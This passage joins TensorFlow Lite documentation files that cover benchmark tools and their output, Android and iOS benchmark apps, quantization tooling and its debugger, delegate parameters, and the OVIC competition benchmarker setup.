	                 SOFTMAX	   79.443	    0.029	    0.029	  0.001%	  1.993%	     0.000	        0	[MobilenetV1/Predictions/Softmax]

============================== Top by Computation Time ==============================
	             [node type]	  [start]	  [first]	 [avg ms]	     [%]	  [cdf%]	  [mem KB]	[times called]	[Name]
	                 CONV_2D	   19.352	    6.652	    6.652	  0.167%	  0.167%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_3_pointwise/Relu6]
	                 CONV_2D	    6.421	    6.107	    6.107	  0.153%	  0.320%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_1_pointwise/Relu6]
	                 CONV_2D	   72.069	    5.888	    5.888	  0.148%	  0.468%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_13_pointwise/Relu6]
	                 CONV_2D	   30.694	    5.800	    5.800	  0.145%	  0.613%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_5_pointwise/Relu6]
	                 CONV_2D	   51.432	    5.693	    5.693	  0.143%	  0.756%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_9_pointwise/Relu6]
	                 CONV_2D	   57.493	    5.472	    5.472	  0.137%	  0.893%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_10_pointwise/Relu6]
	                 CONV_2D	   63.330	    5.404	    5.404	  0.136%	  1.029%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_11_pointwise/Relu6]
	                 CONV_2D	   45.752	    5.322	    5.322	  0.133%	  1.162%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_8_pointwise/Relu6]
	                 CONV_2D	   40.105	    5.293	    5.293	  0.133%	  1.295%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_7_pointwise/Relu6]
	                 CONV_2D	    0.000	    4.269	    4.269	  0.107%	  1.402%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_0/Relu6]

Number of nodes executed: 31
============================== Summary by node type ==============================
	             [Node type]	  [count]	  [avg ms]	    [avg %]	    [cdf %]	  [mem KB]	[times called]
	                 CONV_2D	       15	     1.406	    89.270%	    89.270%	     0.000	        0
	       DEPTHWISE_CONV_2D	       13	     0.169	    10.730%	   100.000%	     0.000	        0
	                 SOFTMAX	        1	     0.000	     0.000%	   100.000%	     0.000	        0
	                 RESHAPE	        1	     0.000	     0.000%	   100.000%	     0.000	        0
	         AVERAGE_POOL_2D	        1	     0.000	     0.000%	   100.000%	     0.000	        0

Timings (microseconds): count=50 first=79449 curr=81350 min=77385 max=88213 avg=79732 std=1929
Memory (bytes): count=0
31 nodes observed


Average inference timings in us: Warmup: 83235, Init: 38467, Inference: 79760.9
```

## Benchmark multiple performance options in a single run

A convenient and simple C++ binary is also provided to benchmark multiple
performance options in a single run. This binary is built based on the
aforementioned benchmark tool that could only benchmark a single performance
option at a time. They share the same build/install/run process, but the BUILD
target name of this binary is `benchmark_model_performance_options` and it takes
some additional parameters as detailed below.

### Additional Parameters
*   `perf_options_list`: `string` (default='all') \
    A comma-separated list of TFLite performance options to benchmark.
*   `option_benchmark_run_delay`: `float` (default=-1.0) \
    The delay between two consecutive runs of benchmarking performance options
    in seconds.
*   `random_shuffle_benchmark_runs`: `bool` (default=true) \
    Whether to perform all benchmark runs, each of which has different
    performance options, in a random order.

## Build the benchmark tool with Tensorflow ops support

You can build the benchmark tool with [Tensorflow operators support](https://www.tensorflow.org/lite/guide/ops_select).

### How to build

To build the tool, you need to use 'benchmark_model_plus_flex' target with
'--config=monolithic' option.

```
bazel build -c opt \
  --config=monolithic \
  tensorflow/lite/tools/benchmark:benchmark_model_plus_flex
```

### How to benchmark tflite model with Tensorflow ops

Tensorflow ops support just works the benchmark tool is built with Tensorflow
ops support. It doesn't require any additional option to use it.

```
bazel-bin/tensorflow/lite/tools/benchmark/benchmark_model_plus_flex \
  --graph=model_converted_with_TF_ops.tflite \
```
# TFLite Model Benchmark Tool with Android Apk

## Description

This Android benchmark app is a simple wrapper around the TensorFlow Lite
[command-line benchmark utility](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark).

Pushing and executing binaries directly on an Android device is a valid approach
to benchmarking, but it can result in subtle (but observable) differences in
performance relative to execution within an actual Android app. In particular,
Android's scheduler tailors behavior based on thread and process priorities,
which differ between a foreground Activity/Application and a regular background
binary executed via `adb shell ...`. This tailored behavior is most evident when
enabling multi-threaded CPU execution with TensorFlow Lite.

To that end, this app offers perhaps a more faithful view of runtime performance
that developers can expect when deploying TensorFlow Lite with their
application.

## To build/install/run

(0) Refer to
https://github.com/tensorflow/tensorflow/tree/master/tensorflow/examples/android
to edit the `WORKSPACE` to configure the android NDK/SDK.

(1) Build for your specific platform, e.g.:

```
bazel build -c opt \
  --config=android_arm64 \
  tensorflow/lite/tools/benchmark/android:benchmark_model
```

(Optional) To enable Hexagon delegate with `--use_hexagon=true` option, you can
download and install the libraries as the guided in [hexagon delegate]
(https://www.tensorflow.org/lite/performance/hexagon_delegate#step_2_add_hexagon_libraries_to_your_android_app)
page. For example, if you installed the libraries at third_party/hexagon_nn_skel
and created third_party/hexagon_nn_skel/BUILD with a build target,

```
filegroup(
    name = "libhexagon_nn_skel",
    srcs = glob(["*.so"]),
)
```

you need to modify tflite_hexagon_nn_skel_libraries macro in
tensorflow/lite/special_rules.bzl to specify the build target.

```
return ["//third_party/hexagon_nn_skel:libhexagon_nn_skel"]
```

(2) Connect your phone. Install the benchmark APK to your phone with adb:

```
adb install -r -d -g bazel-bin/tensorflow/lite/tools/benchmark/android/benchmark_model.apk
```

Note: Make sure to install with "-g" option to grant the permission for reading
external storage.

(3) Push the compute graph that you need to test.

```
adb push mobilenet_quant_v1_224.tflite /data/local/tmp
```

(4) Run the benchmark. Additional command-line flags are documented
[here](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark/README.md)
and can be appended to the `args` string alongside the required `--graph` flag
(note that all args must be nested in the single quoted string that follows the
args key).

```
adb shell am start -S \
  -n org.tensorflow.lite.benchmark/.BenchmarkModelActivity \
  --es args '"--graph=/data/local/tmp/mobilenet_quant_v1_224.tflite \
  --num_threads=4"'
```

(5) The results will be available in Android's logcat, e.g.:

```
adb logcat | grep "Average inference"

... tflite  : Average inference timings in us: Warmup: 91471, Init: 4108, Inference: 80660.1
```

## To trace Tensorflow Lite internals including operator invocation

The steps described here follows the method of
https://developer.android.com/topic/performance/tracing/on-device. Refer to the
page for more detailed information.

(0)-(3) Follow the steps (0)-(3) of [build/install/run](#to-buildinstallrun)
section.

(4) Enable platform tracing.

```
adb shell setprop debug.tflite.trace 1
```

(5) Set up Quick Settings tile for System Tracing app on your device. Follow the
[instruction](https://developer.android.com/topic/performance/tracing/on-device#set-up-tile).
The System Tracing tile will be added to the Quick Settings panel.

Optionally, you can set up other configurations for tracing from the app menu.
Refer to the
[guide](https://developer.android.com/topic/performance/tracing/on-device#app-menu)
for more information.

(6) Tap the System Tracing tile, which has the label "Record trace". The tile
becomes enabled, and a persistent notification appears to notify you that the
system is now recording a trace.

(7) Run the benchmark with platform tracing enabled.

```
adb shell am start -S \
  -n org.tensorflow.lite.benchmark/.BenchmarkModelActivity \
  --es args '"--graph=/data/local/tmp/mobilenet_quant_v1_224.tflite \
  --num_threads=4"'
```

(8) Wait until the benchmark finishes. It can be checked from Android log
messages, e.g.,

```
adb logcat | grep "Average inference"

... tflite  : Average inference timings in us: Warmup: 91471, Init: 4108, Inference: 80660.1
```

(9) Stop tracing by tapping either the System Tracing tile in the Quick Settings
panel or on the System Tracing notification. The system displays a new
notification that contains the message "Saving trace". When saving is complete,
the system dismisses the notification and displays a third notification "Trace
saved", confirming that your trace has been saved and that you're ready to share
the system trace.

(10)
[Share](https://developer.android.com/topic/performance/tracing/on-device#share-trace)
a trace file,
[convert](https://developer.android.com/topic/performance/tracing/on-device#converting_between_trace_formats)
between tracing formats and
[create](https://developer.android.com/topic/performance/tracing/on-device#create-html-report)
an HTML report. Note that, the captured tracing file format is either in
Perfetto format or in Systrace format depending on the Android version of your
device. Select the appropriate method to handle the generated file.

(11) Disable platform tracing.

```
adb shell setprop debug.tflite.trace 0
```
# TFLite iOS benchmark app.

## Description

An iOS app to benchmark TFLite models.

The app reads benchmark parameters from a JSON file named
`benchmark_params.json` in its `benchmark_data` directory. Any downloaded models
for benchmarking should also be placed in `benchmark_data` directory.

The JSON file specifies the name of the model file and other benchmarking
parameters like inputs to the model, type of inputs, number of iterations,
number of threads. The default values in the JSON file are for the
Mobilenet_1.0_224 model ([paper][mobilenet-paper],
[tflite&pb][mobilenet-model]).

## Building / running the app

*   Follow the [iOS build instructions][build-ios] to configure the Bazel
    workspace and `.bazelrc` file correctly.

*   Run `build_benchmark_framework.sh` script to build the benchmark framework.
    This script will build the benchmark framework for iOS and put it under
    `TFLiteBenchmark/TFLiteBenchmark/Frameworks` directory.

*   If you want more detailed profiling, run the build script with `-p` option:
    `build_benchmark_framework.sh -p`.

*   Modify `benchmark_params.json` change the `input_layer`, `input_layer_shape`
    and other benchmark parameters.

*   Change `Build Phases -> Copy Bundle Resources` and add the model file to the
    resources that need to be copied.

*   Ensure that `Build Phases -> Link Binary With Library` contains the
    `Accelerate framework` and `TensorFlowLiteBenchmarkC.framework`.

*   Now try running the app. The app has a single button that runs the benchmark
    on the model and displays results in a text view below. You can also see the
    console output section in your Xcode to see more detailed benchmark
    information.


[build-ios]: https://tensorflow.org/lite/guide/build_ios
[mobilenet-model]: https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_02_22/mobilenet_v1_1.0_224.tgz
[mobilenet-paper]: https://arxiv.org/pdf/1704.04861.pdf
# Test models for testing quantization

This directory contains test models for testing quantization.

## Models

* `single_conv_weights_min_0_max_plus_10.bin` \
   A floating point model with single convolution where all weights are
   integers between [0, 10] weights are randomly distributed. It is not
   guaranteed that min max for weights are going to appear in each channel.
   All activations have min maxes and activations are in range [0,10].
* `single_conv_weights_min_minus_127_max_plus_127.bin` \
   A floating point model with a single convolution where weights of the model
   are all integers that lie in range[-127, 127]. The weights have been put in
   such a way that each channel has at least one weight as -127 and one weight
   as 127. The activations are all in range: [-128, 127].
   This means all bias computations should result in 1.0 scale.
* `single_softmax_min_minus_5_max_5.bin` \
   A floating point model with a single softmax. The input tensor has min
   and max in range [-5, 5], not necessarily -5 or +5.
* `single_avg_pool_input_min_minus_5_max_5.bin` \
   A floating point model with a single average pool. The input tensor has min
   and max in range [-5, 5], not necessarily -5 or +5.
* `weight_shared_between_convs.bin` \
   A floating point model with two convs that have a use the same weight tensor.
* `multi_input_add_reshape.bin` \
   A floating point model with two inputs with an add followed by a reshape.
* `quantized_with_gather.bin` \
   A floating point model with an input with a gather, modeling a situation
   of mapping categorical input to embeddings.
# TFLite Quantize Weights Tool

## Recommended usage

The Quantize Weights transformation is integrated with
[tflite_convert](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/g3doc/convert/cmdline_reference.md#transformation-flags).

The recommended way of invoking this tool is by simply adding the
`--post_training_quantize` flag to your original tflite_convert invocation. For
example,

```
tflite_convert \
  --output_file=/tmp/foo.tflite \
  --saved_model_dir=/tmp/saved_model \
  --post_training_quantize
```

## Overview

The Quantize Weights tool provides a simple way to quantize the weights for a
float TFLite model.

TODO(raghuramank): Add link to weight quantization tutorial.

### Size reduction

float32 weights will be converted to 8 bit integers. This results in a model
that is around 1/4th the size of the original model.

### Latency reduction

TFLite also has "hybrid" kernels implemented for many operations. These "hybrid"
kernels take 8 bit integer weights and float inputs, dynamically quantize the
inputs tensor (based on the input tensor's min and max elements), and does
computations using the 8 bit integer values. This results in a 2-4x reduction in
latency for "hybrid" kernels. In this mode the inference type is still FLOAT
since the inputs and output to each operation is still float.

For operations that do not yet have "hybrid" kernels implemented, we introduce a
Dequantize operation after 8 bit integer weights. These convert weights back to
float32 during inference to allow original float32 kernels to run. Since we
cache dequantized results, the result of each of this dequantized path will be
on-par with the original float model.

TODO(yunluli): Fill in latency results from latency experiments.

### Accuracy

Since this technique quantizes weights after the model has already been trained,
there can be accuracy drops depending on the model. For common CNN networks, the
observed accuracy drops are small and can be seen below.

TODO(yunluli): Fill in accuracy results from accuracy experiments.

## Direct usage

One can also invoke the Quantize Weights directly via C++ if they have a float
`::tflite::Model` that they want to convert. They must provide a
`flatbuffers::FlatBufferBuilder` which owns the underlying buffer of the created
model. Here is an example invocation:

```
::tflite::Model* input_model = ...;
flatbuffers::FlatBufferBuilder builder;
TfLiteStatus status = ::tflite::optimize::QuantizeWeights(&builder, input_model);
CHECK(status, kTfLiteStatusOk);
const uint8_t* buffer = builder->GetBufferPointer();
tflite::Model* output_model = ::tflite::GetModel(buffer);
```
# TensorFlow Lite Quantization Debugger

[TOC]

## Overview

When a quantized model is produced, it requires tedious and manual custom code
to debug the model in order to:

1. Verify if the quantized model is working as expected (spot errors, check
   accuracy, etc).
2. Compare the quantized model and the original float model.

This is now feasible using the TensorFlow Lite Quantization Debugger, as shown
below.

Note: Currently, this workflow is only supported for full integer (int8)
quantization. The debug model produced using this workflow should only be used
for debugging purposes only (and not for inference).

## Analysis with quantized model only

### Produce a debug model

Modify the
[TFLite full integer (int8) quantization steps](https://www.tensorflow.org/lite/performance/post_training_quantization#full_integer_quantization)
as shown below to produce a debug model (used for debugging purposes only, and
not inference)

#### How does this work?

With the help of the MLIR quantizer's debug mode feature, the debug model
produced has both the original float operators (or ops) and the quantized ops.
Additionally, `NumericVerify` ops are added to compare the outputs of the
original float and quantized ops and to also collect statistics. It has the name
in the format of `NumericVerify/{original tensor name}:{original tensor id}`

```python
# for mlir_quantize
from tensorflow.lite.python import convert

# set full-integer quantization parameters as usual.
converter.target_spec.supported_ops = [tf.lite.OpsSet.TFLITE_BUILTINS_INT8]
converter.representative_dataset = calibration_gen

# Create a TFLite model with new quantizer and numeric verify ops. Rather than
# calling convert() only, calibrate model first and call `mlir_quantize` to run
# the actual quantization, with `enable_numeric_verify` set to `True`.
converter.optimizations = [tf.lite.Optimize.DEFAULT]
converter._experimental_calibrate_only = True
calibrated = converter.convert()
return convert.mlir_quantize(calibrated, enable_numeric_verify=True)
```

### Run debugger with debug model

Initialize debugger with the debug model. This can be done in two ways.

```python
from tensorflow.lite.tools.optimize.debugging.python import debugger

# `debug_dataset` accpets the same type as `converter.representative_dataset`.
quant_debugger = debugger.QuantizationDebugger(
    quant_debug_model_content=quant_debug_model,
    debug_dataset=data_gen)

# OR

quant_debugger = debugger.QuantizationDebugger(
    quant_debug_model_path='/path/to/debug_model.tflite',
    debug_dataset=data_gen)

quant_debugger.run()
```

### Inspect statistics

When you call `quant_debugger.run()`, `quant_debugger.layer_statistics` is
filled with aggregated statistics for each `NumericVerify` ops. Some metrics
(i.e. stddev, mean square error) are calculated by default.

#### Example output
```python
# `quant_debugger.layer_statistics.metrics` is defaultdict, convert it to dict
# for readable output.
import pprint
for layer_name, metrics in quant_debugger.layer_statistics.items():
  print(layer_name)
  pprint.pprint(dict(metrics))
```

```python
# ...

NumericVerify/sequential/dense/MatMul;sequential/dense/BiasAdd3:77
{'max_abs_error': 0.05089309,
 'mean_error': -0.00017149668,
 'mean_squared_error': 0.00040816222,
 'num_elements': 256.0,
 'stddev': 0.02009948}
NumericVerify/sequential/dense_1/MatMul;sequential/dense_1/BiasAdd3:81
{'max_abs_error': 0.09744112,
 'mean_error': 0.0048679365,
 'mean_squared_error': 0.0036721828,
 'num_elements': 10.0,
 'stddev': 0.055745363}
NumericVerify/Identity2:85
{'max_abs_error': 0.0036417267,
 'mean_error': -0.00068773015,
 'mean_squared_error': 3.439951e-06,
 'num_elements': 10.0,
 'stddev': 0.0016223773}

# ...
```

## Adding custom metrics

More metrics can be added by passing `QuantizationDebugOptions` to the
initializer. For example, if you want to add mean absolute error, use following
snippet.

```python
debug_options = debugger.QuantizationDebugOptions(
    layer_debug_metrics={
        'mean_abs_error': lambda diffs: np.mean(np.abs(diffs))
    })

quant_debugger = debugger.QuantizationDebugger(
    quant_debug_model_content=quant_debug_model,
    debug_dataset=data_gen,
    debug_options=debug_options
)
quant_debugger.run()
```

Now `quant_debugger.layer_statistics` includes mean absoulte error for each
layer.

## Analysis with float and quantized models

In addition to single model analysis, the output of original float model and
quantized model can be compared when both models are given. This can be done
by providing a float model, and metrics to compare outputs. This can be `argmax`
for classification models, bit for more complex models like detection more
complicated logic should be given.

```python
# functions for model_debug_metrics gets all output tensors from float and
# quantized models, and returns a single metric value.
debug_options = debugger.QuantizationDebugOptions(
    model_debug_metrics={
        'argmax_accuracy': lambda f, q: np.argmax(f[0]) == np.argmax(q[0])
    })

float_model = converter.convert()  # converted without any optimizations.

quant_debugger = debugger.QuantizationDebugger(
    quant_debug_model_content=quant_debug_model,
    float_model_content=float_model,  # can pass `float_model_path` instead.
    debug_dataset=data_gen,
    debug_options=debug_options
)
quant_debugger.run()
```

The result is a single number per metric, so it's easier to inspect.

```python
>>> quant_debugger.model_statistics
{'argmax_accuracy': 0.89}
```

## Advanced usage: Export stats to csv, and import to pandas

`quant_debugger.layer_statistics_dump` function accepts file-like object, and
exports layer statistics to csv. This can be imported to other tools like
`pandas` for further processing. The exported data also has name of the op,
originating tensor ID, and quantization parameters (scales and zero points) for
quantized layer.

Note: scales and zero points are lists, and imported to `pandas` as text by
default. Additional processing to parse them is required before processing.

```python
import pandas as pd
import yaml  # used to parse lists

with open('/path/to/stats.csv', 'w') as f:
  quant_debugger.layer_statistics_dump(f)

data = pd.read_csv('/path/to/stats.csv', converters={
      'scales': yaml.safe_load, 'zero_points': yaml.safe_load})
```
# TFLite Delegate Utilities for Tooling

## TFLite Delegate Registrar

[A TFLite delegate registrar](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/tools/delegates/delegate_provider.h)
is provided here. The registrar keeps a list of TFLite delegate providers, each
of which defines a list parameters that could be initialized from commandline
arguments and provides a TFLite delegate instance creation based on those
parameters. This delegate registrar has been used in TFLite evaluation tools and
the benchmark model tool.

A particular TFLite delegate provider can be used by
linking the corresponding library, e.g. adding it to the `deps` of a BUILD rule.
Note that each delegate provider library has been configured with
`alwayslink=1` in the BUILD rule so that it will be linked to any binary that
directly or indirectly depends on it.

The following lists all implemented TFLite delegate providers and their
corresponding list of parameters that each supports to create a particular
TFLite delegate.

### Common parameters
*   `num_threads`: `int` (default=-1) \
    The number of threads to use for running the inference on CPU. By default,
    this is set to the platform default value -1.
*   `max_delegated_partitions`: `int` (default=0, i.e. no limit) \
    The maximum number of partitions that will be delegated. \
    Currently supported by the GPU, Hexagon, CoreML and NNAPI delegate.
*   `min_nodes_per_partition`: `int` (default=delegate's own choice) \
    The minimal number of TFLite graph nodes of a partition that needs to be
    reached to be delegated. A negative value or 0 means to use the default
    choice of each delegate. \
    This option is currently supported by the Hexagon and CoreML delegate.
*   `delegate_serialize_dir`: `string` (default="") \
    Directory to be used by delegates for serializing any model data. This
    allows the delegate to save data into this directory to reduce init time
    after the first run. Currently supported by GPU (OpenCL) and NNAPI delegate
    with specific backends on Android. Note that delegate_serialize_token is
    also required to enable this feature.
*   `delegate_serialize_token`: `string` (default="") \
    Model-specific token acting as a namespace for delegate serialization.
    Unique tokens ensure that the delegate doesn't read inapplicable/invalid
    data. Note that delegate_serialize_dir is also required to enable this
    feature.

### GPU delegate provider

The GPU deleagte is supported on Android and iOS devices, or platforms where
the delegate library is built with "-DCL_DELEGATE_NO_GL" macro.

#### Common options
*   `use_gpu`: `bool` (default=false) \
    Whether to use the
    [GPU accelerator delegate](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/delegates/gpu).
*   `gpu_precision_loss_allowed`: `bool` (default=true) \
    Whether to allow the GPU delegate to carry out computation with some
    precision loss (i.e. processing in FP16) or not. If allowed, the performance
    will increase.
*   `gpu_experimental_enable_quant`: `bool` (default=true) \
    Whether to allow the GPU delegate to run a 8-bit quantized model or not.
*   `gpu_inference_for_sustained_speed`: `bool` (default=false) \
    Whether to prefer maximizing the throughput. This mode will help when the
    same delegate will be used repeatedly on multiple inputs. This is supported
    on non-iOS platforms.

#### Android options
*  `gpu_backend`: `string` (default="") \
    Force the GPU delegate to use a particular backend for execution, and fail
    if unsuccessful. Should be one of: cl, gl. By default, the GPU delegate will
    try OpenCL first and then OpenGL if the former fails.

#### iOS options
*   `gpu_wait_type`: `string` (default="") \
    Which GPU wait_type option to use. Should be one of the following: passive,
    active, do_not_wait, aggressive. When left blank, passive mode is used by
    default.

### NNAPI delegate provider
*   `use_nnapi`: `bool` (default=false) \
    Whether to use
    [Android NNAPI](https://developer.android.com/ndk/guides/neuralnetworks/).
    This API is available on recent Android devices. When on Android Q+, will
    also print the names of NNAPI accelerators accessible through the
    `nnapi_accelerator_name` flag.
*   `nnapi_accelerator_name`: `string` (default="") \
    The name of the NNAPI accelerator to use (requires Android Q+). If left
    blank, NNAPI will automatically select which of the available accelerators
    to use.
*   `nnapi_execution_preference`: `string` (default="") \
    Which
    [NNAPI execution preference](https://developer.android.com/ndk/reference/group/neural-networks.html#group___neural_networks_1gga034380829226e2d980b2a7e63c992f18af727c25f1e2d8dcc693c477aef4ea5f5)
    to use when executing using NNAPI. Should be one of the following:
    fast_single_answer, sustained_speed, low_power, undefined.
*   `nnapi_execution_priority`: `string` (default="") \
    The relative priority for executions of the model in NNAPI. Should be one
    of the following: default, low, medium and high. This option requires
    Android 11+.
*   `disable_nnapi_cpu`: `bool` (default=true) \
    Excludes the
    [NNAPI CPU reference implementation](https://developer.android.com/ndk/guides/neuralnetworks#device-assignment)
    from the possible devices to be used by NNAPI to execute the model. This
    option is ignored if `nnapi_accelerator_name` is specified.
*   `nnapi_allow_fp16`: `bool` (default=false) \
    Whether to allow FP32 computation to be run in FP16.
*   `nnapi_allow_dynamic_dimensions`: `bool` (default=false) \
    Whether to allow dynamic dimension sizes without re-compilation. This
    requires Android 9+.
*   `nnapi_use_burst_mode`: `bool` (default=false) \
    use NNAPI Burst mode if supported. Burst mode allows accelerators to
    efficiently manage resources, which would significantly reduce overhead
    especially if the same delegate instance is to be used for multiple
    inferences.
*   `nnapi_support_library_path`: `string` (default=""),
    Path from which NNAPI support library will be loaded to construct the
    delegate. In order to use NNAPI delegate with support library,
    --nnapi_accelerator_name must be specified and must be equal to one of the
    devices provided by the support library.

### Hexagon delegate provider
*   `use_hexagon`: `bool` (default=false) \
    Whether to use the Hexagon delegate. Not all devices may support the Hexagon
    delegate, refer to the [TensorFlow Lite documentation](https://www.tensorflow.org/lite/performance/hexagon_delegate) for more
    information about which devices/chipsets are supported and about how to get
    the required libraries. To use the Hexagon delegate also build the
    hexagon_nn:libhexagon_interface.so target and copy the library to the
    device. All libraries should be copied to /data/local/tmp on the device.
*   `hexagon_profiling`: `bool` (default=false) \
    Whether to profile ops running on hexagon.

### XNNPACK delegate provider
*   `use_xnnpack`: `bool` (default=false) \
    Whether to explicitly apply the XNNPACK delegate. Note the XNNPACK delegate
    could be implicitly applied by the TF Lite runtime regardless the value of
    this parameter. To disable this implicit application, set the value to
    `false` explicitly.

### CoreML delegate provider
*   `use_coreml`: `bool` (default=false) \
    Whether to use the [Core ML delegate](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/delegates/coreml).
    This option is only available in iOS.
*   `coreml_version`: `int` (default=0) \
    Target Core ML version for model conversion. The default value is 0 and it
    means using the newest version that's available on the device.

### External delegate provider
*   `external_delegate_path`: `string` (default="") \
    Path to the external delegate library to use.
*   `external_delegate_options`: `string` (default="") \
    A list of options to be passed to the external delegate library. Options
    should be in the format of `option1:value1;option2:value2;optionN:valueN`
# Build TensorFlow Lite with CMake

Please refer [../../g3doc/guide/build_cmake.md](../../g3doc/guide/build_cmake.md)
# TF Lite Android Image Classifier App Example

A simple Android example that demonstrates image classification using the camera.

## Building in Android Studio with TensorFlow Lite AAR from MavenCentral.
The build.gradle is configured to use TensorFlow Lite's nightly build.

If you see a build error related to compatibility with Tensorflow Lite's Java API (example: method X is
undefined for type Interpreter), there has likely been a backwards compatible
change to the API. You will need to pull new app code that's compatible with the
nightly build and may need to first wait a few days for our external and internal
code to merge.

## Building from Source with Bazel

1. Follow the [Bazel steps for the TF Demo App](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/examples/android#bazel):

  1. [Install Bazel and Android Prerequisites](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/examples/android#install-bazel-and-android-prerequisites).
     It's easiest with Android Studio.

      - You'll need at least SDK version 23.
      - Make sure to install the latest version of Bazel. Some distributions
        ship with Bazel 0.5.4, which is too old.
      - Bazel requires Android Build Tools `28.0.0` or higher.
      - You also need to install the Android Support Repository, available
        through Android Studio under `Android SDK Manager -> SDK Tools ->
        Android Support Repository`.

  2. [Edit your `WORKSPACE`](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/examples/android#edit-workspace)
     to add SDK and NDK targets.

     NOTE: As long as you have the SDK and NDK installed, the `./configure`
     script will create these rules for you. Answer "Yes" when the script asks
     to automatically configure the `./WORKSPACE`.

      - Make sure the `api_level` in `WORKSPACE` is set to an SDK version that
        you have installed.
      - By default, Android Studio will install the SDK to `~/Android/Sdk` and
        the NDK to `~/Android/Sdk/ndk-bundle`.

2. Build the app with Bazel. The demo needs C++11:

  ```shell
  bazel build -c opt //tensorflow/lite/java/demo/app/src/main:TfLiteCameraDemo
  ```

3. Install the demo on a
   [debug-enabled device](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/examples/android#install):

  ```shell
  adb install bazel-bin/tensorflow/lite/java/demo/app/src/main/TfLiteCameraDemo.apk
  ```
# OVIC Benchmarker for LPCV 2020

This folder contains the SDK for track one of the
[Low Power Computer Vision workshop at CVPR 2020.](https://lpcv.ai/2020CVPR/ovic-track)

## Pre-requisite

Follow the steps [here](https://www.tensorflow.org/lite/demo_android) to install
Tensorflow, Bazel, and the Android NDK and SDK.

## Test the benchmarker:

The testing utilities helps the developers (you) to make sure that your
submissions in TfLite format will be processed as expected in the competition's
benchmarking system.

Note: for now the tests only provides correctness checks, i.e. classifier
predicts the correct category on the test image, but no on-device latency
measurements. To test the latency measurement functionality, the tests will
print the latency running on a desktop computer, which is not indicative of the
on-device run-time. We are releasing an benchmarker Apk that would allow
developers to measure latency on their own devices.

### Obtain the sample models

The test data (models and images) should be downloaded automatically for you by
Bazel. In case they are not, you can manually install them as below.

Note: all commands should be called from your tensorflow installation folder
(under this folder you should find `tensorflow/lite`).

*   Download the
    [testdata package](https://storage.googleapis.com/download.tensorflow.org/data/ovic_2019_04_30.zip):

```sh
curl -L https://storage.googleapis.com/download.tensorflow.org/data/ovic_2019_04_30.zip -o /tmp/ovic.zip
```

*   Unzip the package into the testdata folder:

```sh
unzip -j /tmp/ovic.zip -d tensorflow/lite/java/ovic/src/testdata/
```

### Run tests

You can run test with Bazel as below. This helps to ensure that the installation
is correct.

```sh
bazel test //tensorflow/lite/java/ovic:OvicClassifierTest --cxxopt=-Wno-all --test_output=all

bazel test //tensorflow/lite/java/ovic:OvicDetectorTest --cxxopt=-Wno-all --test_output=all
```

### Test your submissions

Once you have a submission that follows the instructions from the
[competition site](https://lpcv.ai/2020CVPR/ovic-track), you can verify it in
two ways:

#### Validate using randomly generated images

You can call the validator binary below to verify that your model fits the
format requirements. This often helps you to catch size mismatches (e.g. output
for classification should be [1, 1001] instead of [1,1,1,1001]). Let say the
submission file is located at `/path/to/my_model.lite`, then call:

```sh
bazel build //tensorflow/lite/java/ovic:ovic_validator --cxxopt=-Wno-all
bazel-bin/tensorflow/lite/java/ovic/ovic_validator /path/to/my_model.lite classify
```

Successful validation should print the following message to terminal:

```
Successfully validated /path/to/my_model.lite.

```

To validate detection models, use the same command but provide "detect" as the
second argument instead of "classify".

#### Test that the model produces sensible outcomes

You can go a step further to verify that the model produces results as expected.
This helps you catch bugs during TFLite conversion (e.g. using the wrong mean
and std values).

*   Move your submission to the testdata folder:

```sh
cp /path/to/my_model.lite tensorflow/lite/java/ovic/src/testdata/
```

*   Resize the test image to the resolutions that are expected by your
    submission:

The test images can be found at
`tensorflow/lite/java/ovic/src/testdata/test_image_*.jpg`. You may reuse these
images if your image resolutions are 128x128 or 224x224.

*   Add your model and test image to the BUILD rule at
    `tensorflow/lite/java/ovic/src/testdata/BUILD`:

```JSON
filegroup(
    name = "ovic_testdata",
    srcs = [
        "@tflite_ovic_testdata//:detect.lite",
        "@tflite_ovic_testdata//:float_model.lite",
        "@tflite_ovic_testdata//:low_res_model.lite",
        "@tflite_ovic_testdata//:quantized_model.lite",
        "@tflite_ovic_testdata//:test_image_128.jpg",
        "@tflite_ovic_testdata//:test_image_224.jpg"
        "my_model.lite",        # <--- Your submission.
        "my_test_image.jpg",    # <--- Your test image.
    ],
    ...
```

*   For classification models, modify `OvicClassifierTest.java`:

    *   change `TEST_IMAGE_PATH` to `my_test_image.jpg`.

    *   change either `FLOAT_MODEL_PATH` or `QUANTIZED_MODEL_PATH` to
        `my_model.lite` depending on whether your model runs inference in float
        or
        [8-bit](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/contrib/quantize).

    *   change `TEST_IMAGE_GROUNDTRUTH` (ImageNet class ID) to be consistent
        with your test image.

*   For detection models, modify `OvicDetectorTest.java`:

    *   change `TEST_IMAGE_PATH` to `my_test_image.jpg`.
    *   change `MODEL_PATH` to `my_model.lite`.
    *   change `GROUNDTRUTH` (COCO class ID) to be consistent with your test
        image.

Now you can run the bazel tests to catch any runtime issues with the submission.

Note: Please make sure that your submission passes the test. If a submission
fails to pass the test it will not be processed by the submission server.

## Measure on-device latency

We provide two ways to measure the on-device latency of your submission. The
first is through our competition server, which is reliable and repeatable, but
is limited to a few trials per day. The second is through the benchmarker Apk,
which requires a device and may not be as accurate as the server, but has a fast
turn-around and no access limitations. We recommend that the participants use
the benchmarker apk for early development, and reserve the competition server
